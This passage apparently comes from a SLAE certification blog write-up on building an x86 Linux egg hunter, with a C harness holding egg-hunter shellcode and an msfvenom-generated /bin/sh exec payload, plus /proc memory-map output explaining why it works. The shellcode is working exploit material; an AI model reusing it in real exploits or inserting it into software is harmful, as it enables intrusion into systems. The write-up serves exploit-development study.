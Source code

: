 *N.B: Our egg hunter is under submission on exploit-db.*  
  
Now let's update [shellcode.c](https://github.com/phackt/slae/blob/master/assignment3/shellcode.c):  
```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\xb8\x60\x80\x04\x08\xbb\x91\x50\x90\x50\x4b\x40\x39\x18\x75\xfb\xff\xe0";

unsigned char egg[] = \
"\x90\x50\x90\x50" // egg mark - do not remove
"\xbd\x64\xb2\x0c\xf4\xda\xc2\xd9\x74\x24\xf4\x5a\x31\xc9\xb1" // msfvenom -p linux/x86/exec CMD=/bin/sh -f c -b \x00
"\x0b\x83\xc2\x04\x31\x6a\x11\x03\x6a\x11\xe2\x91\xd8\x07\xac"
"\xc0\x4f\x7e\x24\xdf\x0c\xf7\x53\x77\xfc\x74\xf4\x87\x6a\x54"
"\x66\xee\x04\x23\x85\xa2\x30\x3b\x4a\x42\xc1\x13\x28\x2b\xaf"
"\x44\xdf\xc3\x2f\xcc\x4c\x9a\xd1\x3f\xf2";

void main()
{

	printf("Egg hunter shellcode Length:  %d\n", strlen(egghunter));
	printf("Egg shellcode Length:  %d\n", strlen(egg));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
  
Let's run our egg hunter:    
![image1]({{ site.url }}/public/images/slae/assignment3/image1.png)  
  
Perfect, but why did it work ?  In our shellcode.c the egg has been placed in the .data segment (global initialized variables). According to the following picture (anatomy of a program in memory), we can see that the .text, .data and .bss segments are contigous and readable:  

![linuxflexibleaddressspacelayout.png]({{ site.url }}/public/images/slae/assignment3/linuxflexibleaddressspacelayout.png)  
  
let's check for our shellcode's memory mapping in gdb:  
![image2]({{ site.url }}/public/images/slae/assignment3/image2.png)  
  
**1563** is our shellcode process id:  
```bash
# cat /proc/1563/maps
08048000-08049000 r-xp 00000000 08:01 2885480    /root/Documents/pentest/certs/slae/exam/assignment3/shellcode
08049000-0804a000 r-xp 00000000 08:01 2885480    /root/Documents/pentest/certs/slae/exam/assignment3/shellcode
0804a000-0804b000 rwxp 00001000 08:01 2885480    /root/Documents/pentest/certs/slae/exam/assignment3/shellcode
0804b000-0806c000 rwxp 00000000 00:00 0          [heap]
b7dfb000-b7fac000 r-xp 00000000 08:01 269855     /lib/i386-linux-gnu/libc-2.24.so
b7fac000-b7fae000 r-xp 001b0000 08:01 269855     /lib/i386-linux-gnu/libc-2.24.so
b7fae000-b7faf000 rwxp 001b2000 08:01 269855     /lib/i386-linux-gnu/libc-2.24.so
b7faf000-b7fb2000 rwxp 00000000 00:00 0 
b7fd3000-b7fd6000 rwxp 00000000 00:00 0 
b7fd6000-b7fd9000 r--p 00000000 00:00 0          [vvar]
b7fd9000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
b7fdb000-b7ffd000 r-xp 00000000 08:01 269850     /lib/i386-linux-gnu/ld-2.24.so
b7ffe000-b7fff000 r-xp 00022000 08:01 269850     /lib/i386-linux-gnu/ld-2.24.so
b7fff000-b8000000 rwxp 00023000 08:01 269850     /lib/i386-linux-gnu/ld-2.24.so
bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
```